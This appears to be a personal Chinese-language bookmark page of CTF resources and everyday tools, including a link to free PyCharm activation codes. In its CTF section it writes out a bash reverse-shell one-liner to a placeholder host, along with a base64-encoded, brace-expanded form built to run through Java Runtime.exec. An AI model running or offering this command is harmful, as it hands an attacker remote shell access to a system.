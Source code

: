 ## CTF

[近期赛事 | READFLAG (su-sanha.cn)](https://www.su-sanha.cn/events/)

[CTF站点导航 | 猫捉鱼铃 (mzy0.com)](https://ctf.mzy0.com/)

[PHP: PHP 手册 - Manual](https://www.php.net/manual/zh/index.php)

[MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/)

[PyCharm激活码最新2023永久免费提供_pycharm密钥激活码_Intellijidea激活码_jetbrains相关产品激活码 (vrg123.com)](https://www.vrg123.com/)

[Runtime.exec Payload Generater | AresX's Blog (ares-x.com)](https://ares-x.com/tools/runtime-exec)

shell的编码执行，例如

```
bash -i >& /dev/tcp/vps/port 0>&1 ==>

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC92cHMvcG9ydCAwPiYx}|{base64,-d}|{bash,-i}
```

## 日常

推荐截图工具pinpix：[截图/贴图/OCR/长截图/截动图\] PixPin 不止截图的截图工具 - V2EX](https://v2ex.com/t/989393#reply54)

推荐桌面管理工具rolan：[Rolan - 官方网站](https://getrolan.com/)

本地保存html页面插件：singlefile
